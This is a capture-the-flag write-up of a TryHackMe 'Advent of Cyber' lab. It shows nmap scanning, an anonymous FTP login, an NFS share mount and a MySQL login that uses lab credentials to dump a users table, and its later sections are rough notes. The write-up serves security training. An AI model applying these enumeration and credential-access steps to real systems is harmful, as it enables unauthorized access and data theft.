 # Advent of Cyber  [2019] - Day 11
> 4lch3my | June 14, 2023
-------------------
#### Elf Applications
#### [Room Link](https://tryhackme.com/room/25daysofchristmas)

##### Deploy the machine and connect to our network
  Deploy the machine with the Start Machine button, also either deploy your Attack Box OR Connect to OpenVPN and deploy your personal KALI machine. <br>

  To start, I use [nmap] for scanning the machine, which is default option on the personal Kali install I have. We start with a basic command
  ` nmap -sC -sV -A -v MACHINE_IP `
  The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -v outputs in verbose mode, so we can follow along with the commands and enumeration.
  In our NMAP results we get:
```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-06-13 01:23 BST
Nmap scan report for ip-10-10-35-99.eu-west-1.compute.internal (10.10.35.99)
Host is up (0.00038s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 500 OOPS: invalid pasv_address
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to MACHINE_IP
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 14:6f:fc:4d:82:43:eb:e9:6e:f3:0e:01:38:f0:cb:23 (RSA)
|   256 83:33:03:d0:b4:1d:cb:8e:59:6f:13:14:c5:a2:75:b3 (ECDSA)
|_  256 ec:b1:63:c0:6d:98:fd:be:76:31:cd:b9:78:35:2a:bf (EdDSA)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  3           2049/udp  nfs
|   100003  3,4         2049/tcp  nfs
|   100005  1,2,3      20048/tcp  mountd
|   100005  1,2,3      20048/udp  mountd
|   100021  1,3,4      33686/udp  nlockmgr
|   100021  1,3,4      39359/tcp  nlockmgr
|   100024  1          43852/udp  status
|   100024  1          50703/tcp  status
|   100227  3           2049/tcp  nfs_acl
|_  100227  3           2049/udp  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
3306/tcp open  mysql   MySQL 5.7.28
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.28
|   Thread ID: 15
|   Capabilities flags: 65535
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, InteractiveClient, SupportsLoadDataLocal, SupportsTransactions, Support41Auth, FoundRows, SwitchToSSLAfterHandshake, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, IgnoreSigpipes, SupportsCompression, Speaks41ProtocolOld, LongPassword, ODBCClient, LongColumnFlag, ConnectWithDatabase, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: \x7F|;amt\x1DA?vPb)yY\x186\x18zH
|_  Auth Plugin Name: 79
MAC Address: 02:90:84:59:C5:9B (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=6/13%OT=21%CT=1%CU=39228%PV=Y%DS=1%DC=D%G=Y%M=029084%T
OS:M=6487B726%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A
OS:)SEQ(SP=108%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M2301ST11NW7%O2=M23
OS:01ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)
OS:WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=FF%W=
OS:6903%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=FF%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N
OS:)T3(R=N)T4(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=FF%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7
OS:(R=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=FF%IPL=164%UN=
OS:0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=FF%CD=S)

Network Distance: 1 hop
Service Info: OS: Unix

TRACEROUTE
HOP RTT     ADDRESS
1   0.38 ms ip-MACHINE_IP.eu-west-1.compute.internal (10.10.35.99)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.07 seconds
```

Wow. We have a bunch of services running on this machine. Let's look at the one by one.

##### FTP

As we can see in our nmap scan, we have the `ftp-anon` enabled on this machines, what refers to  "log-in" with no known password. 

```
ftp-anon: Anonymous FTP login allowed (FTP code 230)
```
Let's try to login to the FTP server.
When prompted, we can leave the password field blank and hit [ENTER]. 

```
root@ip-10-10-148-9:~# ftp MACHINE_IP
Connected to MACHINE_IP.
220 (vsFTPd 3.0.2)
Name (MACHINE_IP:root): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Time to list all the files with the `ls` command:

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0              39 Dec 10  2019 file.txt
drwxr-xr-x    2 0        0               6 Nov 04  2019 pub
d-wx-wx--x    2 14       50              6 Nov 04  2019 uploads
-rw-r--r--    1 0        0             224 Nov 04  2019 welcome.msg
226 Directory send OK.
```

After looking at the folders, there is nothing of interest for us, so let's grab `file.txt` & `welcome.msg` with the `get` command to move them to our personal machine:

```
ftp> get file.txt
local: file.txt remote: file.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for file.txt (39 bytes).
226 Transfer complete.
39 bytes received in 0.00 secs (82.0818 kB/s)
ftp> get welcome.msg
local: welcome.msg remote: welcome.msg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for welcome.msg (224 bytes).
226 Transfer complete.
224 bytes received in 0.00 secs (150.1373 kB/s)
``` 

Looking at the `welcome.msg` file, we see nothing of interest, it is simply a file to show us some default data about the ftp page where we logged into.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/Advent%20of%20Cyber%201%20%5B2019%5D/images/Day_11_welcome.PNG?raw=true)


But, if we look at the `file.txt` file, we have some usefull information for further enumeration on this machine.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/Advent%20of%20Cyber%201%20%5B2019%5D/images/Day_11_file.PNG?raw=true)


nfs

root@ip-10-10-240-134:~# showmount -e MACHINE_IP
Export list for MACHINE_IP:
/opt/files *

mount MACHINE_IP:/opt/files /root/Desktop/

sql

if no sql reader, install: mysql-client-core-5.7

mysql -u root -pff912ABD* -h MACHINE_IP

(-pPassword, yes! -p is WITH password!, all one word)

mysql> SELECT VERSION(), CURRENT_DATE;
+-----------+--------------+
| VERSION() | CURRENT_DATE |
+-----------+--------------+
| 5.7.28    | 2023-06-14   |
+-----------+--------------+
1 row in set (0.00 sec)

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| data               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+

mysql> use data;
Reading table information for completion of table and column names


mysql> show tables;
+----------------+
| Tables_in_data |
+----------------+
| USERS          |
+----------------+
1 row in set (0.00 sec)



mysql> SELECT * FROM USERS;
+-------+--------------+
| name  | password     |
+-------+--------------+
| admin | bestpassword |
+-------+--------------+
1 row in set (0.00 sec)

mysql> 


https://dev.mysql.com/doc/refman/8.0/en/getting-information.html